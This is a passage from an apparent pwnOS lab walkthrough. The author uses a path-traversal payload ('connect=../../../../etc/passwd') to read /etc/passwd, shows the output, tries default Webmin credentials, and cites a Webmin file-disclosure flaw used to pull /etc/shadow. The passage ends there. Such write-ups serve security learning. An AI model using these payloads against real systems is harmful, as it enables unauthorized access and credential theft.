 Thinking LFI, I tried to read a file from the system: <code>connect=../../../../etc/passwd</code>. No filtering in place!

``` plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

Cool, it looks like obama, osama and yomama have been busy making accounts on this box! 

I looked next at the Webmin server:

{% img center /images/pentest/pwnos/webmin.png 'webmin' 'webmin' %}

Tried logging in with the default credentials *root/root*, but it didn't work. Time to search for some exploits!

### Getting the /etc/shadow file

There is a file disclosure vulnerability for the Webmin server, available in Metasploit:

> A vulnerability has been reported in Webmin and Usermin, which can be exploited by malicious people to disclose potentially sensitive 
> information. The vulnerability is caused due to an unspecified error within the handling of an URL. This can be exploited to read the contents
> of any files on the server via a specially crafted URL, without requiring a valid login. The vulnerability has been reported in Webmin 
> (versions prior to 1.290) and Usermin (versions prior to 1.220).

With it, I was able to pull the target's */etc/shadow* file:
